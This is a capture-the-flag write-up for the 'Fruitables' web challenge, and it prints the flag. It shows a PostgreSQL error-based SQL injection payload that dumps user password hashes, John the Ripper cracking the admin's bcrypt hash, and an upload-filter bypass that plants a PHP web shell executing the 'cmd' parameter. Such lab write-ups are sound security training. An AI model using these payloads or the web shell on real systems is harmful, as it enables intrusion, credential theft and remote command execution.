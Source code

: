 # Fruitables

A website about fruit? Probably no vulnerabilities there.. Move along everybody!

# Flag
```
INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}
```

# Solution
I explored all the pages but seemed to offer nothing of interest.

<img src="imgs/home.png">

Enumerate endpoints and directories using `dirsearch`:

```bash
dirsearch -u https://fruitables-0.ctf.intigriti.io/

...
# Interesting results:
[21:18:09] 200 -    7KB - /account.php
[21:18:57] 301 -  253B  - /uploads  ->  http://fruitables-0.ctf.intigriti.io/uploads/
...
```

Browsing to `/account.php` shows a registration page, but trying to register prompts us that registration is closed and only allows us to login.

<img src="imgs/login.png">

After conducting some fuzzing, I found an SQLI vulnerability when the username `bob'` is input.

```
Fatal error: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: unterminated quoted string at or near "'bob''" LINE 1: SELECT * FROM users WHERE username = 'bob'' ^ in /var/www/html/auth/fruitables_login.php:11 Stack trace: #0 /var/www/html/auth/fruitables_login.php(11): PDO->query('SELECT * FROM u...') #1 {main} thrown in /var/www/html/auth/fruitables_login.php on line 11
```

The nature of the error hints that the database is PostgreSQL. We can craft a payload that extracts data through error messages (reference from [portswigger sqli cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)):

```
bob'+UNION+SELECT+CAST((SELECT+password+FROM+users+LIMIT+1+OFFSET+2)+AS+int),'2','3','4','5','6
```

<img src="imgs/sqli.png">

Changing the LIMIT and OFFSET value, we can map out the `users` table as such:
```
| username | password |
| -------- | -------- |
| cryptocat | y0/HlOtAkyWN1KzjKOQlge2uyHYEHEfQV3ynFBTV/nvfM5IS/x6Sq |
| invincible | y0/avsmtl2dS2XVcRWT6E5OzrnUg8FU1dg6RvYd/9KTmcO0BctXGxa |
| tjfry_admin | $2y$10$buhvcTHdjqnb2r0L15ilJefOlGTe1rpD31685K02KfOk7xizNisiy |
```

We can use John the Ripper to crack the hash of `tjfry_admin`:

```bash
john --wordlist=/opt/rockyou.txt tjfry_admin.txt
```
```
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:10 0% 0g/s 260.6p/s 260.6c/s 260.6C/s dragonball..outlaw
0g 0:00:00:47 0% 0g/s 264.1p/s 264.1c/s 264.1C/s nesha..100689
futurama         (?)
1g 0:00:00:49 100% 0.02014g/s 263.9p/s 263.9c/s 263.9C/s melbourne..090990
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Logging in with the credentials (`tjfry_admin`:`futurama`), we are redirected to the Admin Dashboard.

<img src="imgs/admin.png">

The file upload feature can potentially be exploited to upload a malicious PHP script?
After trying to upload some files, we learn that it only accepts JPEG and PNG files. These files are then renamed and available in `/uploads/`.

I had to utilise several bypass techniques to upload my PHP script, namely:
1. Specifying filename as `test.jpg.php`
2. Start file with JPEG magic bytes, then include PHP code under

```php
#JPEG magic bytes here..

<?php system($_REQUEST['cmd']); ?>  # execute commands in `cmd` query parameter
```

<img src="imgs/fileupload.png">

After the file is successfully uploaded, browse to it under the `/uploads/` folder and append a `cmd` query parameter to execute arbitrary commands on the target. Subsequently, we can find the name of the flag file and read its contents.

<img src="imgs/rce.png">